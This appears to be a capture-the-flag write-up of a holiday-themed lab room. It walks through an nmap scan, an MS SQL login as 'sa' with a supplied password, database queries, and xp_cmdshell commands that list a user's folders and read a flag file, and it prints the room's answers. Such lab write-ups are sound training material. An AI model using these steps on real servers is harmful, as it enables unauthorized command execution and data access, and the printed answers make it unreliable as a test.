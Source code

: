 # `[Networking]` Where Are the Reindeers?

## Story
>McDatabaseAdmin came rushing into the room and cried to McSkidy, “We’ve been locked out of the reindeer schedule - how will Santa’s transportation work for Christmas?” The grinch has locked McDatabaseAdmin of his system. You need to probe the external surface of the server to see if you get him his access back.

Decided to use the AttackBox for this one as I was on Windows at the time.

### There is an open port related to MS SQL Server accessible over the network. What is the port number? `****`

```
# nmap -sT 10.10.84.3 -Pn
Starting Nmap 7.60 ( https://nmap.org ) at 2021-12-11 21:12 GMT
Nmap scan report for ip-10-10-84-3.eu-west-1.compute.internal (10.10.84.3)
Host is up (0.00082s latency).
Not shown: 996 filtered ports
PORT     STATE SERVICE
22/tcp   open  ssh
135/tcp  open  msrpc
1433/tcp open  ms-sql-s
3389/tcp open  ms-wbt-server
```

<details>
  <summary>Answer:</summary>

```
1433
```
</details>

>Let’s try to run, `sqsh -S 10.10.84.3 -U sa -P t7uLKzddQzVjVFJp`

### If the connection is successful, you will get a prompt. What is the prompt that you have received? `**`

<details>
  <summary>Answer:</summary>

```
1>
```
</details>

>McDatabaseAdmin told us the database name is `reindeer` and it has three tables:
>
>`names`
>`presents`
>`schedule`
>To display the table `names`, you could use the following syntax, `SELECT * FROM table_name WHERE condition`.
>
>`SELECT *` is used to return specific columns (attributes). * refers to all the columns.
>`FROM table_name` to specify the table you want to read from.
>`WHERE condition` to specify the rows (entities).
>In the terminal below, we executed the query, `SELECT * FROM reindeer.dbo.names;`. This SQL query should dump all the contents of the table `names` from the database `reindeer`. Note that the `;` indicates the end of the SQL query, while `go` sends a SQL batch to the database.

```
# sqsh -S 10.10.84.3 -U sa -P "t7uLKzddQzVjVFJp"
1> SELECT * FROM reindeer.dbo.names;
2> go
 id          first                                    last                                     nickname
 ----------- ---------------------------------------- ---------------------------------------- ----------------------------------------
           1 Dasher                                   Dasher                                   Dasher                                  
           2 Dancer                                   Dancer                                   Dancer                                  
           3 Prancer                                  Prancer                                  Prancer                                 
           4 Vixen                                    Vixen                                    Vixen                                   
           5 Comet                                    Comet                                    Comet                                   
           6 Cupid                                    Cupid                                    Cupid                                   
           7 Donner                                   Donder                                   Dunder                                  
           8 Blitzen                                  Blixem                                   Blitzen                                 
           9 Rudolph                                  Reindeer                                 Red Nosed

 (9 rows affected)
```

### We can see four columns in the table displayed above: id, first (name), last (name), and nickname. What is the first name of the reindeer of id 9? `*******`

<details>
  <summary>Answer:</summary>

```
Rudolph
```
</details>

### Check the table schedule. What is the destination of the trip scheduled on December 7? `******`

```
1> SELECT * FROM reindeer.dbo.schedule;
2> go
```

<details>
  <summary>Answer:</summary>

```
Prague
```
</details>

### Check the table presents. What is the quantity available for the present “Power Bank”? `*****`

```
1> SELECT * FROM reindeer.dbo.presents;
2> go
```
<details>
  <summary>Answer:</summary>

```
25000
```
</details>

>Some MS SQL Servers have `xp_cmdshell` enabled. If this is the case, we might have access to something similar to a command prompt.
>
>The command syntax is `xp_cmdshell 'COMMAND';`. Let’s try a simple command, `whoami`, which shows the user running the commands. In the terminal output below, after connecting to MS SQL Server, we tried `xp_cmdshell 'whoami';`, and we can see that the user is `nt service\mssqlserver`.

### There is a flag hidden in the grinch user's home directory. What are its contents? `***{****************}`

```
1> xp_cmdshell 'dir C:\Users\grinch';
2> go

	output 
---                                                                                                                   

	 Volume in drive C has no label.                                                                                          

	 Volume Serial Number is A8A4-C362                                                                                        

	 Directory of C:\Users\grinch   
                                                                                                                                                                          
	11/10/2021  02:22 AM    <DIR>          .                                                                                  
	11/10/2021  02:22 AM    <DIR>          ..                                                                                 
	11/10/2021  02:22 AM    <DIR>          3D Objects                                                                         
	11/10/2021  02:22 AM    <DIR>          Contacts                                                                           
	11/10/2021  02:22 AM    <DIR>          Desktop                                                                            
	11/10/2021  02:29 AM    <DIR>          Documents                                                                          
	11/10/2021  02:22 AM    <DIR>          Downloads                                                                          
	11/10/2021  02:22 AM    <DIR>          Favorites                                                                          
	11/10/2021  02:22 AM    <DIR>          Links                                                                              
	11/10/2021  02:22 AM    <DIR>          Music                                                                              
	11/10/2021  02:22 AM    <DIR>          Pictures                                                                           
	11/10/2021  02:22 AM    <DIR>          Saved Games                                                                        
	11/10/2021  02:22 AM    <DIR>          Searches                                                                           
	11/10/2021  02:22 AM    <DIR>          Videos                                                                             
	               0 File(s)              0 bytes                                                                             
	              14 Dir(s)   4,934,955,008 bytes free                                                                        
	NULL                                                                                                                      

(22 rows affected, return status = 0)
--------------------------------------------------------------------------------
1> xp_cmdshell 'dir C:\Users\grinch\Desktop';
2> go
	output                                                                                                                    
---
	 Volume in drive C has no label.                                                                                          

	 Volume Serial Number is A8A4-C362                                                                                        

	 Directory of C:\Users\grinch\Desktop                                                                                     

	11/10/2021  02:22 AM    <DIR>          .
	11/10/2021  02:22 AM    <DIR>          ..
	06/21/2016  03:36 PM               527 EC2 Feedback.website
	06/21/2016  03:36 PM               554 EC2 Microsoft Windows Guide.website
	               2 File(s)          1,081 bytes
	               2 Dir(s)   4,934,930,432 bytes free
	NULL                                                                                                                      

(12 rows affected, return status = 0)
--------------------------------------------------------------------------------
1> xp_cmdshell 'dir C:\Users\grinch\Documents';
2> go

	output                                                                                                                    
---
	 Volume in drive C has no label.                                                                                          

	 Volume Serial Number is A8A4-C362                                                                                        

	 Directory of C:\Users\grinch\Documents                                                                                   

	11/10/2021  02:29 AM    <DIR>          .                                                                                  
    11/10/2021  02:29 AM    <DIR>          ..                                                                                 
    11/10/2021  02:28 AM                21 flag.txt                                                                           
                   1 File(s)             21 bytes                                                                             
                   2 Dir(s)   5,129,494,528 bytes free                                                                                                                          

(11 rows affected, return status = 0)
--------------------------------------------------------------------------------
1> xp_cmdshell 'type C:\Users\grinch\Documents\flag.txt';
2> go

	output                                                                                                                    
---

	THM{YjtKeUy2qT3v5dDH}

(1 row affected, return status = 0)

```

<details>
  <summary>Answer:</summary>

```
THM{YjtKeUy2qT3v5dDH}
```
</details>
